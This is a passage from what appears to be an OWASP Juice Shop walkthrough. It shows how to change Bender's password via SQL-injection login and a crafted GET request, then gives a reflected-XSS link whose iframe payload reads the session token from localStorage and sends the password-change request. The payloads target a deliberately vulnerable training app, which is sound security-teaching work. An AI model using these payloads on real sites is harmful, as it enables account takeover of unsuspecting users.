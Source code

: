 4. Now [Log in with Bender’s user account](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_log_in_with_benders_user_account) using SQL Injection.
5. Craft a GET request with Bender’s `Authorization Bearer` header to [http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic](http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic) to solve the challenge.
    
    ![GET request via PostMan](media/blog4/csrf_postman.png)
    

### **Bonus Round: Delivering the attack via reflected XSS**

If you want to craft an actually realistic attack against `/rest/user/change-password` that you could send a user as a malicious link, you will have to invest a bit extra work, because a simple attack like *Search* for `<img src="http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic">` will not work. Making someone click on the corresponding attack link [http://localhost:3000/#/search?q=%3Cimg%20src%3D%22http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic%22%3E](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic%22%3E) will return a `500` error when loading the image URL with a message clearly stating that your attack ran against a security-wall: `Error: Blocked illegal activity`

To make this exploit work, some more sophisticated attack URL is required:

[http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Axmlhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%20xmlhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26amp%3Brepeat%3DslurmCl4ssic%27%29%3B%20xmlhttp.setRequestHeader%28%27Authorization%27%2C%60Bearer%3D%24%7BlocalStorage.getItem%28%27token%27%29%7D%60%29%3B%20xmlhttp.send%28%29%3B%22%3E](http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Axmlhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%20xmlhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26amp%3Brepeat%3DslurmCl4ssic%27%29%3B%20xmlhttp.setRequestHeader%28%27Authorization%27%2C%60Bearer%3D%24%7BlocalStorage.getItem%28%27token%27%29%7D%60%29%3B%20xmlhttp.send%28%29%3B%22%3E)

